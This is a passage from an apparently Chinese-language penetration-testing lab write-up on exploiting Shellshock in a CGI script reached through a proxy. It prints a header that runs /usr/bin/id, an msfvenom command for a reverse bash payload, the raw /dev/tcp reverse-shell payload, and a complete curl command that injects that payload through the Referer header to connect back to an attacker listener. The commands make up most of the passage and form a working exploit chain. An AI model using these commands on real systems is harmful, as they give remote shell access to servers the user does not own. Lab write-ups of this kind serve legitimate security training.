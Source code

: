 `-v` 显示更详细的信息


`http://ip/cgi-bin/status` nikto扫描出来的url


`-H " "`指定主机头 里面是一个恶意构造的http头，目的是利用Shellshock漏洞来尝试执行服务器上的命令。具体来说，它试图通过设置一个恶意的环境变量来触发漏洞，然后执行 `/usr/bin/id` 命令，该命令会输出当前用户的ID信息，包括用户名和所属用户组。


[![](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241125231245439-1928849398.png)](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241125231245439-1928849398.png)


### 利用shellshock反弹shell


用msfvenom生成payload


[MSF的使用教程 \- 黑客无极 \- 博客园](https://github.com)


highlighter\- routeros
```
sudo msfvenom -p cmd/unix/reverse_bash lhost=kali_ip lport=443 -f raw 
```

`-f, --format` 


 `指定 Payload 的输出格式(使用 --list formats 列出)`


\-f raw 表示直接输出payload的源代码


这个sh环境路径有可能无法使用，如果不行就改成绝对路径


[![](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241125231254639-153841339.png)](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241125231254639-153841339.png)


生成的payload


highlighter\- apache
```
0<&137-;exec 137<>/dev/tcp/192.168.236.128/443;sh <&137 >&137 2>&137
```

nc开启监听后，使用payload


highlighter\- awk
```
sudo curl -v --proxy http://192.168.236.133:3128 http://192.168.236.133/cgi-bin/status -H "Referer:() { test;}; echo 0<&137-;exec 137<>/dev/tcp/192.168.236.128/443;sh <&137 >&137 2>&137"
```

执行后监听有反应，但直接就断了，显示没有sh这个文件或路径


[![](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241125231303209-1080601449.png)](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241125231303209-1080601449.png)
那就修改一下：`/bin/sh`
